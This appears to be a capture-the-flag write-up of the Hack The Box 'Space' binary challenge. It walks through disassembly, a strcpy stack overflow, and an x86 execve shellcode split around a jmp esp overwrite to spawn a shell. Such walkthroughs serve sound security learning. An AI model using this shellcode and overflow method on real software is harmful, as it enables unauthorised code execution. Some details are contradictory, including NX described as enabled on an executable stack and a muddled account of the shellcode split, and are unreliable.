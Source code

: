 # Space

This challenge was an easy shellcoding based challenge wherein the constraints were length. We had to cleverly make use of a shellcode in order to spawn the shell. To understand better, let's dive right in!

## Preliminary ananlysis on the binary:
- file:

![file](https://github.com/shravya-bhaskara/shravya-bhaskara.github.io/blob/main/pwn/hack%20the%20box/space/Screenshot%20from%202021-10-14%2013-03-54.png)

- permissions:

![permissions](https://github.com/shravya-bhaskara/shravya-bhaskara.github.io/blob/main/pwn/hack%20the%20box/space/Screenshot%20from%202021-10-14%2013-05-08.png)

As we can NX is enabled. Rop is another way to approach and solve this problem, however we shall make use of the shellcode as the stack is already executable in nature. 

## Approach:
To state the obvious, we will need an execve shellcode to pop out a shell! However we must look into the binary given and find out the vulnerability!

Below is the disassembly for main():
```   
   0x080491da <+11>:	mov    ebp,esp
   0x080491dc <+13>:	push   ebx
   0x080491dd <+14>:	push   ecx
   0x080491de <+15>:	sub    esp,0x20
   0x080491e1 <+18>:	call   0x80490d0 <__x86.get_pc_thunk.bx>
   0x080491e6 <+23>:	add    ebx,0x20de
   0x080491ec <+29>:	sub    esp,0xc
   0x080491ef <+32>:	lea    eax,[ebx-0x12bc]
   0x080491f5 <+38>:	push   eax
   0x080491f6 <+39>:	call   0x8049040 <printf@plt>
   0x080491fb <+44>:	add    esp,0x10
   0x080491fe <+47>:	mov    eax,DWORD PTR [ebx-0x4]
   0x08049204 <+53>:	mov    eax,DWORD PTR [eax]
   0x08049206 <+55>:	sub    esp,0xc
   0x08049209 <+58>:	push   eax
   0x0804920a <+59>:	call   0x8049050 <fflush@plt>
   0x0804920f <+64>:	add    esp,0x10
   0x08049212 <+67>:	sub    esp,0x4
   0x08049215 <+70>:	push   0x1f
   0x08049217 <+72>:	lea    eax,[ebp-0x27]
   0x0804921a <+75>:	push   eax
   0x0804921b <+76>:	push   0x0
   0x0804921d <+78>:	call   0x8049030 <read@plt>
   0x08049222 <+83>:	add    esp,0x10
   0x08049225 <+86>:	sub    esp,0xc
   0x08049228 <+89>:	lea    eax,[ebp-0x27]
   0x0804922b <+92>:	push   eax
   0x0804922c <+93>:	call   0x80491a4 <vuln>
   0x08049231 <+98>:	add    esp,0x10
   0x08049234 <+101>:	mov    eax,0x0
   0x08049239 <+106>:	lea    esp,[ebp-0x8]
   0x0804923c <+109>:	pop    ecx
```
As we can see, the size of the stack is 0x20, whereas only 0x1f bytes of input data are read! Which means there is no possibility of an overflow. However a look into the vuln() function shows:

```
   0x080491a4 <+0>:	push   ebp
   0x080491a5 <+1>:	mov    ebp,esp
   0x080491a7 <+3>:	push   ebx
   0x080491a8 <+4>:	sub    esp,0x14
   0x080491ab <+7>:	call   0x8049243 <__x86.get_pc_thunk.ax>
   0x080491b0 <+12>:	add    eax,0x2114
   0x080491b5 <+17>:	sub    esp,0x8
   0x080491b8 <+20>:	push   DWORD PTR [ebp+0x8]
   0x080491bb <+23>:	lea    edx,[ebp-0xe]
   0x080491be <+26>:	push   edx
   0x080491bf <+27>:	mov    ebx,eax
   0x080491c1 <+29>:	call   0x8049060 <strcpy@plt>
   0x080491c6 <+34>:	add    esp,0x10
   0x080491c9 <+37>:	nop
   0x080491ca <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491cd <+41>:	leave  
   0x080491ce <+42>:	ret 
   ```
   From the above snippet of the disassembly of vuln(), we can see that strcpy() is being used and therefore we can overrwite eip to get a shell. 
   
   To find the buffer size before eip, we shall give a random input buffer of length 0x1f. 
   ```buf = cyclic(0x1e)```
   
   ![context](https://github.com/shravya-bhaskara/shravya-bhaskara.github.io/blob/main/pwn/hack%20the%20box/space/Screenshot%20from%202021-10-14%2014-31-54.png)

   In the above snippet, for our inp = "aaaabaaacaaadaaaeaaafaaagaaaha", segfault occurs at ```0x61666161```. i.e eip is located after 18 bytes of input data.
   
   The total size of pur input is only 31 bytes. Which means, we need to split a shellcode in such a way that the first part of the shellcode compromizes the last 9 bytes of our input data. The second part of our shellcode must account for the first 18 bytes of input data.
   
   This can be further explained as:
   Consider the shellcode:
   ```
      31 c9                   xor    ecx, ecx
      31 d2                   xor    edx, edx
      52                      push   edx
      68 2f 2f 73 68          push   0x68732f2f
      68 2f 62 69 6e          push   0x6e69622f
      89 e3                   mov    ebx, esp
      6a 0b                   push   0xb
      58                      pop    eax
      cd 80                   int    0x80
   ```
   The above shellcode is for an x86 execve syscall. We are required to split the shellcode in such a way that:
    - first 18 bytes: part1 of shellcode
    - return address (eip) : jmp esp
    - remaining 9 bytes: part2 of shellcode
      
   ## Splitting the shellcode:
   
   ```
   shell1 = 'xor ecx, ecx\n'
   shell1 += 'xor edx, edx\n'
   shell1 += 'sub esp, 0x16\n'
   shell1 += 'call eax\n'
   shell1 = asm(shell1)

   shell2 = 'push edx\n'
   shell2 += 'push 0x68732f2f\n'
   shell2 += 'push 0x6e69622f\n'
   shell2 += 'mov ebx, esp\n'
   shell2 += 'push 0xb\n'
   shell2 += 'pop eax\n'
   shell2 += 'int 0x80\n'
   shell2 = asm(shell2)
```

  - len(shell1) = 9 and len(shell2) = 18
  - While giving input it is essential that the last 9 bytes are executed along with the first 18! Thus a ```jmp``` to ```esp``` after the first 18 bytes i.e overwriting ```eip``` with ```jmp_esp``` instruction would make sure the smooth execution of our shellcode.

